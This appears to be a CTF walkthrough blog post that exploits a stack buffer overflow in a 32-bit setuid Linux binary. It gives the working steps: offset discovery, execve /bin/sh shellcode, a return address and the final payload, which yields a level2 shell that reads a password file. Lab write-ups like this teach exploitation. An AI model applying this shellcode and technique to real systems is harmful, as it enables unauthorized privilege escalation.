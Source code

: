 ```yaml
---
title: "R0 | Pwnage Linux - Level1"
layout: post
date: 2019-08-10
tag:
- Pwnage
- x86
- Linux
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level1
---
```


`# cat /levels/level1.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
```

This code's copying the argument to a 1024-bit buffer using the well known vulnerable function `strcpy`.


`# file /levels/level1`

```
level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f355fe3b2ac64ecfedfcf48c6208429d0138e80d, not stripped
```

> Has a setuid (probably for the next level.. )

> Is compiled for 32 processors (e.g.: x86 arch)

`# checksec /levels/level1`

```
[*] '/root/ringzer0team/pwnageLinux/level1/a.out'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

> No RELRO (Relocation Read-Only): it's possible to overwrite global variable

> No canary found: it's possible to smash the stack 

> NX (no executable) disabled: it's possible to write and execute from the stack

> No PIE (Position Independant Executable): it tells the loader which virtual address it should use and keeps its memory layout quite static (e.g.: `0x8048000`)

So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's an x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.

1. Find the offset of the return adress

```python
from pwn import *
cyclic(2000)
```

``` bash
(gdb) run <CYCLIC_PL>
Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()
```

```python
cyclic_find(0x6b61616a)
1036
```
2. Get an x86 shellcode

```python
 len("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
45
```

3. Pick the return address

```bash
(gdb) run `python -c 'print "A" * 1040'`
(gdb) x/100wx $esp-1050
0xffffd456:	0x0048ffff	0x00040000	0x41410000	0x41414141
0xffffd466:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd476:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd486:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd496:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd506:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd516:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd526:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd536:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd546:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd556:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd566:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd576:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd586:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd596:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d6:	0x41414141	0x41414141	0x41414141	0x41414141
```

4. Craft the PL (e.g.: NOP + SHELLCODE + RETURNADRESS)

```bash
/levels/level1 `python -c 'print "\X90" * 1036-45 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
```

That's it!

```
level1@lxc-pwn-x86:~$ /levels/level1 `python -c 'print "\x90" * (1036-45) + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
level2@lxc-pwn-x86:/home/level1$ wc /home/level2/.pass
 1  1 21 /home/level2/.pass
level2@lxc-pwn-x86:/home/level1$
```
